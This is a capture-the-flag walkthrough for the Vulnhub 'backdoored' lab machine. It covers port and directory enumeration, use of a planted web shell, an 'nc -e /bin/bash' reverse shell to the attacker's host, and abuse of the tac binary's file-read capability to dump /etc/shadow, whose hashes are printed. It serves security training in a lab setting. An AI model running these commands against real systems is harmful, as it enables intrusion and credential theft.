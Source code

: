 # Vulnhub > backdoored


**About Release**

* Name: backdoored: 1
* Date release: 10 Aug 2020
* Author: 0xatom
* Series: backdoored

**Download**

* File: backdooredvm.zip (Size: 783 MB)
* Download: https://mega.nz/file/s7YiTSBD#UM-_Ewu20dHon-FUrBWlSuVhHhSs1vFYCsgDGnYJZVg
* Download (Mirror): https://download.vulnhub.com/backdoored/backdooredvm.zip
* Download (Torrent): https://download.vulnhub.com/backdoored/backdooredvm.zip.torrent ([Magnet](magnet:?xt=urn:btih:6655C72F9924E2CD4A590A3C3366F8263CA4DCB0&dn=backdooredvm.zip&tr=http%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.vulnhub.com%3A6969/announce&tr=udp%3A%2F%2Ftracker.openbittorrent.com%3A80/announce&tr=udp%3A%2F%2Ftracker.publicbt.com%3A80/announce&tr=udp%3A%2F%2Ftracker.istole.it%3A6969))

**Description**

This is an easy box, to pass your time.

It's vmware based, i dont know if it works on VB you can test it if you want.

There are 2 flags under /home/$user/user.txt & /root/root.txt.

No stupid ctfy/guessy stuff, basic enumeration will give you what you want!

Tip: You can't get a root shell, you just have to read the root flag.

Happy pwning! :D


# User flag

## Services enumeration

Running a full Nmap scan reveals that a web server is running on port 1337:

~~~
PORT     STATE SERVICE VERSION
1337/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: backdoored VM
~~~

## Web enumeration

Connecting to port 1337 with our browser shows a static page with instructions. There is a fake `robots.txt` file:

~~~
kali@kali:~$ curl -s http://backdoored.box:1337/robots.txt
base64_string_that_contains_ssh_user_and_password
~~~

After spending a life to enumerate, I eventually found a hidden directory (`wedadmin`) using the `raft-large-directories-lowercase.txt` dictionary from [SecLists](https://github.com/danielmiessler/SecLists).

~~~
kali@kali:/data/backdoored_1$ gobuster dir -u http://backdoored.box:1337 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://backdoored.box:1337
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-large-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/28 13:56:06 Starting gobuster
===============================================================
/server-status (Status: 403)
[ERROR] 2020/09/28 13:56:08 [!] parse http://backdoored.box:1337/error_log: net/url: invalid control character in URL
/wedadmin (Status: 301)
===============================================================
2020/09/28 13:56:11 Finished
===============================================================
~~~

## The `/wedadmin` directory

Connecting to the `/wedadmin` location reveals a web shell. We can get a reverse shell by starting a listener (`rlwrap nc -nvlp 4444`) and entering the following command in the web shell: `nc -e /bin/bash 172.16.222.128 4444`. 

Now in our reverse shell:

~~~
kali@kali:/data/backdoored_1/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.143] 57812
which python3
/usr/bin/python3
python3 -c "import pty;pty.spawn('/bin/bash')"
bob@backdoored:/var/www/html/wedadmin$ id
id
uid=1000(bob) gid=1000(bob) groups=1000(bob),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
~~~

## User flag

Let's get the user flag:

~~~
bob@backdoored:/var/www/html/wedadmin$ cd /home/bob
cd /home/bob
bob@backdoored:/home/bob$ ls -la
ls -la
total 28
drwxr-xr-x 2 bob  bob  4096 Aug  9 19:38 .
drwxr-xr-x 3 root root 4096 Aug  9 18:09 ..
-rw------- 1 bob  bob     5 Aug  9 19:38 .bash_history
-rw-r--r-- 1 bob  bob   220 Aug  9 18:09 .bash_logout
-rw-r--r-- 1 bob  bob  3526 Aug  9 18:09 .bashrc
-rw-r--r-- 1 bob  bob   807 Aug  9 18:09 .profile
-rw-r--r-- 1 root root   33 Aug  9 18:53 user.txt
bob@backdoored:/home/bob$ cat user.txt
cat user.txt
46f7e8413056847a0d4905c5af103f56
bob@backdoored:/home/bob$ 
~~~

# Root flag

## Privilege escalation

Running `linpeas.sh` on the target will reveal following files with capabilities:

~~~
/usr/bin/ping = cap_net_raw+ep
/usr/bin/tac = cap_dac_read_search+ep
~~~

Checking on [GTFOBins](https://gtfobins.github.io/gtfobins/tac/) reveals we can do something with `tac`:

*"It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system."*

## Root flag

Indeed, we are able to read arbitrary privileged files:

~~~
bob@backdoored:/tmp$ tac -s 'RANDOM' "/etc/shadow"
tac -s 'RANDOM' "/etc/shadow"
root:$6$yGRtlX4qJBenKwt7$/IAl8FN0Uykm9SDbsEgCtcaTRRTtNyFN3BUYAUm0THr.8k6IiBWDXSQ/OEale85Bmi9qYYB9gxqzBSacZyJ0s.:18483:0:99999:7:::
daemon:*:18483:0:99999:7:::
bin:*:18483:0:99999:7:::
sys:*:18483:0:99999:7:::
sync:*:18483:0:99999:7:::
games:*:18483:0:99999:7:::
man:*:18483:0:99999:7:::
lp:*:18483:0:99999:7:::
mail:*:18483:0:99999:7:::
news:*:18483:0:99999:7:::
uucp:*:18483:0:99999:7:::
proxy:*:18483:0:99999:7:::
www-data:*:18483:0:99999:7:::
backup:*:18483:0:99999:7:::
list:*:18483:0:99999:7:::
irc:*:18483:0:99999:7:::
gnats:*:18483:0:99999:7:::
nobody:*:18483:0:99999:7:::
_apt:*:18483:0:99999:7:::
systemd-timesync:*:18483:0:99999:7:::
systemd-network:*:18483:0:99999:7:::
systemd-resolve:*:18483:0:99999:7:::
messagebus:*:18483:0:99999:7:::
bob:$6$LtBdhh5HxYSVVC.q$2r4OaVG43jjhYliOm6Fu4IQQ2eyWDQP6Is5QdUL7FtUwr8U6YoRCP.j8CM6UnnpupaCgk7G6D.864o6F.rsvI.:18483:0:99999:7:::
systemd-coredump:!!:18483::::::
sshd:*:18483:0:99999:7:::
~~~

Let's read the root flag:

~~~
bob@backdoored:/tmp$ tac -s 'RANDOM' "/root/root.txt"
tac -s 'RANDOM' "/root/root.txt"
395fdad197a5386ea3f8d02143f3fb75
~~~
